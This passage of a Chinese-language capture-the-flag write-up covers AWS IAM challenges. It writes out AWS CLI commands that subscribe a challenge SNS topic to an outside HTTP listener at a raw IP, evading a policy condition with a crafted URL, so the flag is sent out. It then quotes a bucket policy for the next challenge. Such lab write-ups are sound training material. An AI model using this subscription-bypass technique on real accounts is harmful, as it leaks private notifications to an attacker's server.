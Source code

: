 然后执行以下命令：

```bash
aws sns subscribe --protocol http --notification-endpoint http://123.123.123.123:800/@tbic.wiz.io --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications
```

此时，NC 就会收到一个请求，在请求中有一个 Token，待会儿会用到。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202307091310588.png)

根据官方文档的描述，在进行 Subscribe 时，如果当前和订阅的主题不在一个 AWS 账号下，还需要进行确认操作，在进行确认操作的时候，就需要使用主题返回的 Token 值了。

我们使用以下命令进行确认操作。

```bash
aws sns confirm-subscription --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --token 336412f37fb687f5d51e6e2425c464de257ebd13d0594......
```

当我们执行完这条命令后，等待一会儿，在服务器上就可以接收到包含 FLAG 的消息了。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202307091311952.png)

可以看到题目难度开始加大了，这里除了利用权限公开访问外，还涉及到了对 Policy 中限定条件的绕过。

因此我们在编写 Policy 的时候，除了注意权限不要设置过大外，还应该注意 Policy 中是否有可能被绕过的地方。

## 4. Admin only?

第 4 题的名字叫 "Admin only?"，给出的 Policy 如下：

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                },
                "ForAllValues:StringLike": {
                    "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin"
                }
            }
        }
    ]
}
```
